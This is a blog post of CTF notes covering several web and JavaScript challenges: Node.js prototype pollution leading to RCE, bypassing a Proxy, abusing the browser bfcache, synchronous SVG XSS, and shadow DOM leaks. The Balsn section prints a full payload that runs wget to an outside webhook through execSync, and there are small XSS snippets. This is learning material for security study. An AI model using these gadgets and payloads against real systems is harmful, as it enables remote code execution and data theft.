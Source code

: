 ```yaml
---
title: Notes on Several CTF Challenges Related to Web and JS
catalog: true
date: 2022-12-08 20:10:44
tags: [Security]
categories: [Security]
photos: /img/ctf-js-notes/cover.png
---
```


Recently, there were several CTF challenges that were quite good, such as SECCON and HITCON, but unfortunately, I was traveling abroad at that time and was too lazy to write complete writeups after returning. Originally, I was even too lazy to take notes, but once time passed, it became difficult to find related information, so I decided to write a brief summary.

In addition, I will also briefly mention several challenges that I think I should have taken notes on before, but for some reason, I did not.

Keywords:

1. Node.js prototype pollution gadget to RCE (Balsn CTF 2022 - 2linenodejs)
2. Obtaining the original value of a JS proxy (corCTF 2022 - sbxcalc)
3. Cache of browser back behavior (SECCON CTF 2022 - spanote)
4. Using SVG to create synchronous XSS (HITCON CTF 2022)
5. Reading data from shadow DOM (HITCON CTF 2022)

<!-- more -->

## Balsn CTF 2022 - 2linenodejs

The code is very simple:

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

There is an obvious prototype pollution vulnerability, so the challenge is about how to achieve RCE after having prototype pollution in node.js.

Another key point is the `require('./usage')` inside the catch.

The last key point is this paper: [Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171), which mentions many cases of RCE from prototype pollution and provides gadgets or some hints.

However, one of the vulnerabilities in the paper has been fixed in the version used in this challenge: https://github.com/nodejs/node/blob/v18.8.0/lib/internal/modules/cjs/loader.js#L484

``` js
const { 1: name, 2: expansion = '' } =
    RegExpPrototypeExec(EXPORTS_PATTERN, request) || kEmptyObject;
```

kEmptyObject is `ObjectFreeze(ObjectCreate(null))`, so it cannot be polluted.

But anyway, if you continue to look for it in the file, you will find that the `trySelf` function has the same problem here: https://github.com/nodejs/node/blob/c200106305f4367ba9ad8987af5139979c6cc40c/lib/internal/modules/cjs/loader.js#L454

``` js
const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
```

The default value here also uses `{}`, so it can be interfered with through prototype pollution.

The following code will load `./pwn.js` instead of `./usage.js`:

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./pwn.js"
  },
  name: './usage.js'
}
Object.prototype["path"] = './'

require('./usage.js')
```

Therefore, through prototype pollution, any file can be required. The next task is to find a built-in file with a usable payload. My teammate found `/opt/yarn-v1.22.19/preinstall.js`, and the final payload looks like this:

```js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

Writeups by others:

1. https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs
2. [Node.js require() RCE复现](https://hujiekang.top/2022/10/11/NodeJS-require-RCE/)

### corCTF 2022 - sbxcalc

The core part of this challenge can be seen as follows:

``` js
var p = new Proxy({flag: window.flag || 'flag'}, {
  get: () => 'nope'
})
```

How can you get the flag blocked by the proxy?

The answer is `Object.getOwnPropertyDescriptor`.

`Object.getOwnPropertyDescriptor(p, 'flag')` can be used to obtain the original value instead of the value processed by the proxy.

Author's writeup: https://brycec.me/posts/corctf_2022_challenges#sbxcalc

### SECCON CTF 2022 Quals - spanote

There is a cache in Chrome called back/forward cache, abbreviated as bfcache, which I heard for the first time: https://web.dev/i18n/en/bfcache/

The second disk cache should be more familiar to everyone, and fetched resources will be stored in it.

Using this bfcache, interesting behaviors can be achieved.

Now there is an API like this:

``` js
fastify.get("/api/notes/:noteId", async (request, reply) => {
  const user = new User(request.session.userId);
  if (request.headers["x-token"] !== hash(user.id)) {
    throw new Error("Invalid token");
  }
  const noteId = validate(request.params.noteId);
  return user.sendNote(reply, noteId);
});
```

Although it is a GET, it will check the custom header, so it cannot be accessed directly by the browser.

But with the cache behavior just mentioned, you can:

1. Open `/api/notes/id` in the browser and an error message will appear.
2. Go to the homepage with the same tab. At this time, the homepage will use fetch with custom header to fetch `/api/notes/id`, and the browser will store the result in the disk cache.
3. Go back one page, and the screen will display the result of the disk cache.

You can use the browser to directly browse the cached response and bypass the restriction of the custom header.

For a more detailed writeup of the entire question, please see here: https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote

### HITCON CTF 2022

First, let's post the writeups for maple and splitline:

1. https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON%20CTF%202022
2. https://blog.splitline.tw/hitcon-ctf-2022/

This time I only looked at Self Destruct Message, and briefly talked about several points.

The first is when executing `element.innerHTML = str`, usually anything in HTML will be executed asynchronously, for example:

```js
element.innerHTML = '<img src=x onerror=console.log(1)>'
console.log(2)
```

It is definitely logging 2 first and then 1.

But if you write it like this:

```js
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

It will magically become 1 in front, and this div will even work without being placed in the DOM. The relevant discussion can be seen in this thread: https://twitter.com/terjanq/status/1421093136022048775

Next is to use the error stack to find the original location and get the flag id:

``` js
window.addEventListener('unhandledrejection', e => {
	console.log(e.reason.stack.match(/\/message\/(\w+)/)[1]);
});
```

And this question also has other solutions. Although the element is placed in the shadow DOM, the flag can be stolen through some xsleak. The more complete research is here: [The Closed Shadow DOM](https://blog.ankursundara.com/shadow-dom/)

Similar questions have appeared in DiceCTF 2022, and I have written a post about my experience, but I didn't start tagging keywords at that time: https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/
